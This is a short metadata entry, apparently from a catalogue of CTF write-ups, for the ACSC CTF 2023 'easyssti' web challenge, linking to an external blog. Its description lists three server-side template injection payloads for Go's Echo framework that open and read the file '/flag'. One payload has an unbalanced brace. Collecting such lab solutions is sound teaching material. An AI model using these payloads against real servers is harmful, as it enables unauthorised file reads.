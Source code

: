 ```yaml
---
title: "ACSC CTF 2023 - easyssti"
description: "Example:



{{ $x := .Echo.Filesystem.Open \"/flag\" }} {{ $x.Seek 1 0 }} {{ .Stream 200 \"text/plain\" $x }} (by @nyancat)
{{ (.Echo.Filesystem.Open \"/flag\").Read (.Get \"template\") }} {{ .Get \"template\" }} (by @maple3142)
{{ $f := .Echo.Filesystem.Open \"/flag\" }} {{ $buf := .Get \"template\" }} {{ $f.Read $buf }} {{ $buf } (by @Ocean)



"
external_url: "https://blog.hamayanhamayan.com/entry/2023/02/26/124239#web-easySSTI"
category: "Miscellaneous"
---
```

